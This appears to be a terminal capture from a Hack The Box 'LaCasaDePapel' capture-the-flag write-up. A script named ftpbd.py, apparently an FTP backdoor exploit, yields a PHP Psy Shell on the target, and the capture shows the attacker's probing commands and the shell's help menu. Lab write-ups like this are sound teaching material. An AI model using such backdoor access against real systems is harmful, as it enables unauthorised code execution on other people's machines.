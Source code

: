 
```
kali@kali:~/htb/LaCasaDePapel$ python3 ftpbd.py
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman

ls
Variables: $tokyo

whoami
PHP Warning:  Use of undefined constant whoami - assumed 'whoami' (this will throw an Error in a future version of PHP) in phar://eval()'d code on line 1

id
PHP Warning:  Use of undefined constant id - assumed 'id' (this will throw an Error in a future version of PHP) in phar://eval()'d code on line 1

ls -la

Variables:
  $tokyo   Tokyo {#2307}  
  $_       null
help
help       Show a list of commands. Type `help [foo]` for information about [foo].      Aliases: ?
ls         List local, instance or class variables, methods and constants.              Aliases: list, dir             
  dump       Dump an object or primitive.                                                                                
  doc        Read the documentation for an object, class, constant, method or property.   Aliases: rtfm, man             
  show       Show the code for an object, class, constant, method or property.                                           
  wtf        Show the backtrace of the most recent exception.                             Aliases: last-exception, wtf?  
  whereami   Show where you are in the code.                                                                             
  throw-up   Throw an exception or error out of the Psy Shell.                                                           
  timeit     Profiles with a timer.
trace      Show the current call stack.                                                                                
  buffer     Show (or clear) the contents of the code input buffer.                       Aliases: buf
clear      Clear the Psy Shell screen.                                                                                 
  edit       Open an external editor. Afterwards, get produced code in input buffer.                                     
  sudo       Evaluate PHP code, bypassing visibility restrictions.                                                       
  history    Show the Psy Shell history.                                                  Aliases: hist                  
  exit       End the current session and return to caller.                                Aliases: quit, q
```
